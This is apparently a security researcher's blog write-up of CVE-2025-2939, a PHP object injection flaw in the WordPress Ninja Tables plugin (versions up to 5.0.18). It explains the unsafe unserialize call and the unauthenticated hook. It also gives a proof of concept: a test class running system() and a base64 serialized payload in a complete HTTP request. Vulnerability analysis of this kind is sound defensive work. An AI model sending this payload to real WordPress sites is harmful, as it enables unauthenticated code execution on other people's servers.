

# CVE-2025-2939 Analysis & POC


<!--more-->

## CVE & Basic Info

The WordPress plugin Ninja Tables – Easy Data Table Builder contains a **PHP Object Injection** vulnerability in all versions up to 5.0.18, due to unsafe deserialization of user-provided data from the parameter `args[callback]`. This allows an unauthenticated attacker to supply a malicious PHP object.

* **CVE ID**: [CVE-2025-2939](https://www.cve.org/CVERecord?id=CVE-2025-2939)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 5.0.18
* **Patched Versions**: 5.0.19
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Ninja Tables – Easy Data Table Builder Plugin](https://wordpress.org/plugins/ninja-tables/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Ninja Tables – Easy Data Table Builder**:

  * `5.0.18` – **vulnerable**
  * `5.0.19` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

**In the vulnerable version (v5.0.18):**

```php {title="preserve-code-formatting.php v5.0.18"}
$callback = unserialize(base64_decode($params['callback']));
```

In this code, the **`unserialize()`** function is executed directly on user input (`$params['callback']` after base64 decoding). This introduces a severe vulnerability:

* **Object Injection Risk**: If an attacker injects a serialized PHP object in base64 form, decoding and unserializing the data will instantiate the malicious object, leading to **Object Injection** and potential **Remote Code Execution (RCE)**.
* **Lack of Input Validation**: No validation of the data is performed before calling unserialize.
* **No fallback mechanism**: If the supplied data is invalid or malicious, no error-handling or safe alternative exists, increasing exploitability.

**Patched version (v5.0.19):**


`unserialize()` was replaced with `json_decode()`:

Removing `unserialize()` eliminates the possibility of `PHP Object Injection`.

## Analysis

`getCallback()` is invoked inside the `registerAsyncRequestHandler()` function:

```php {data-open=true title="Client.php" hl_lines=[3,5,19]}
public static function registerAsyncRequestHandler()
{
    $action = static::makeAsyncRequestAction();

    App::addAction("admin_post_nopriv_{$action}", function() {
        
        $request = App::make('request');
        
        $requestUrl = $request->get('args.url');
        
        $requestMethod = $request->get('args.method');
        
        $client = Client::make($requestUrl);
        
        $params = $request->except(
            'action', 'args.url', 'args.method',
        )['args'];

        $callback = static::getCallback($params);
        ...
    });
}
```

The function registers an Ajax endpoint for unauthenticated users (`admin_post_nopriv_`) and retrieves the `action` value using `makeAsyncRequestAction()`:

```php
protected static function makeAsyncRequestAction()
{
    return 'wpf-async-request-'.sha1(
        App::config()->get('app.slug')
    );
}
```

This returns `"wpf-async-request-"` concatenated with the SHA1 hash of the plugin slug. Since the plugin slug is `ninja-tables`, the final value becomes:

```
wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77
```

`$params` contains all data within `args[...]` from the request, after removing the control fields (`action`, `args.url`, `args.method`).

=> When a request is sent to `/wp-admin/admin-post.php` with `action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77`, then `getCallback($params)` is executed.

## Flow


graph TD

A["Unauthenticated user sends GET /wp-admin/admin-post.php?action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[callback]=base64_payload"]
--> B["WordPress triggers hook admin_post_nopriv_wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77"]

B --> C["Plugin handler calls getCallback($params)"]
C --> D["Decode base64 and unserialize payload"]
D --> E["Malicious object instantiated → RCE"]


## Proof of Concept (PoC)

1. Create a class for testing in `wp-config.php`

```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```

2. Let the request pass through BurpSuite proxy
3. Resend the request with args[callback] containing a serialized payload encoded in base64

```php
args[callback] = base64_encode('O:4:"Evil":1:{s:7:"command";s:4:"ls /";}')
```

```HTTP
GET /wp-admin/admin-post.php?action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[callback]=Tzo0OiJFdmlsIjoxOntzOjc6ImNvbW1hbmQiO3M6NDoibHMgLyI7fQ== HTTP/1.1
Host: localhost
```



# Conclusion

Versions <= 5.0.18 of the Ninja Tables plugin handle the `args[callback]` parameter insecurely, executing `unserialize()` on user input without any validation. This allows an unauthenticated attacker to supply a serialized object payload and achieve code execution on the server. The 5.0.19 update completely removes the use of `unserialize()` and replaces it with `json_decode`, fully resolving the issue.

# Key Takeaways

* `unserialize()` must not be used on client-supplied input without validation.
* The Ajax hook `admin_post_nopriv_*` exposes an attack surface to unauthenticated users.
* A single crafted HTTP request is enough to trigger exploitation.
* Version 5.0.19 correctly mitigates the issue by switching to a safer format such as JSON.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Ninja Tables – Easy Data Table Builder Plugin <= 5.0.18 is vulnerable to a high priority PHP Object Injection](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-php-object-injection-to-limited-remote-code-execution-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-21-cve-2025-2939/  

